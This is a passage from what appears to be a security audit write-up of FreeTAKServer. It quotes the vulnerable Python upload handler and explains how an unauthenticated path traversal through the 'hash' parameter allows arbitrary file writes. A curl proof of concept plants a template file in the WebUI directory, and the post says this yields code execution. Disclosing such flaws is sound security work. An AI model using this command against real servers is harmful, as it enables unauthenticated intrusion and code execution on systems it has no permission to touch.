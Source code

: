The difference between the WebUI way and the Marti way is that it does not add junk at the end of the file, as the EUDs are responsible for creating valid DataPackages. 

Function [Sourcecode](https://github.com/FreeTAKTeam/FreeTakServer/blob/2fc5089c431abcf2e4bce0f4030ad22222444ef4/FreeTAKServer/controllers/services/DataPackageServer.py#L155):
```python
@app.route('/Marti/sync/missionupload', methods=[const.POST])
def upload():
  from FreeTAKServer.model.ServiceObjects.SSLDataPackageVariables import SSLDataPackageVariables
  logger.info('dataoackage upload started')
  file_hash = request.args.get('hash')
  app.logger.info(f"Data Package hash = {str(file_hash)}")
  letters = string.ascii_letters
  uid = ''.join(random.choice(letters) for i in range(4))
  uid = 'uid-' + str(uid)
  filename = request.args.get('filename')
  creatorUid = request.args.get('creatorUid')
  file = request.files.getlist('assetfile')[0]
  directory = Path(dp_directory, file_hash)
  if not Path.exists(directory):
    os.mkdir(str(directory))
  file.save(os.path.join(str(directory), filename))
  fileSize = Path(str(directory), filename).stat().st_size
  callsign = str(
    FlaskFunctions().getSubmissionUser(creatorUid,
                                        dbController))  # fetchone() gives a tuple, so only grab the first element
  FlaskFunctions().create_dp(dbController, uid=uid, Name=filename, Hash=file_hash, SubmissionUser=callsign,
                            CreatorUid=creatorUid, Size=fileSize)
  if USINGSSL == False:
    return "http://" + IP + ':' + str(HTTPPORT) + "/Marti/api/sync/metadata/" + file_hash + "/tool"
  else:
    return "https://" + IP + ':' + str(HTTPPORT) + "/Marti/api/sync/metadata/" + file_hash + "/tool"
```
Whats visible in the vulnerable code block is that the parameter `hash` is passed to `os.path.join((str(directory), filename))` which when supplied alot of `../` (8 to be exact) it puts the base directory at the root of the filesystem and then the file is put wherever its directed (given write permissions)  
{{< hl-text danger >}}
Note that this does not require any _authentication_ only that you are connected to the FreeTAKServer with a valid connection.
{{< /hl-text >}}

###### Proof of Concept

```bash
curl -vvv -F "assetfile=@rce.html" "http://atak.FreeTAKServer.com:8080/Marti/sync/missionupload?hash=/../../../../../../../usr/local/lib/python3.8/dist-packages/FreeTAKServer-UI/app/home/templates/&filename=janne2.html&creatorUid="
```
Sending the file contents to the missionupload endpoint results in a valid response and browsing to the file on the WebUI results in Code Execution:  
{{< image classes="fancybox center" src="/img/posts/2022/02/securityaudit-of-an-open-source-project-takserver/arbitrary-file-write_marti_curl.jpg" title="Marti curl request and file contents" >}}
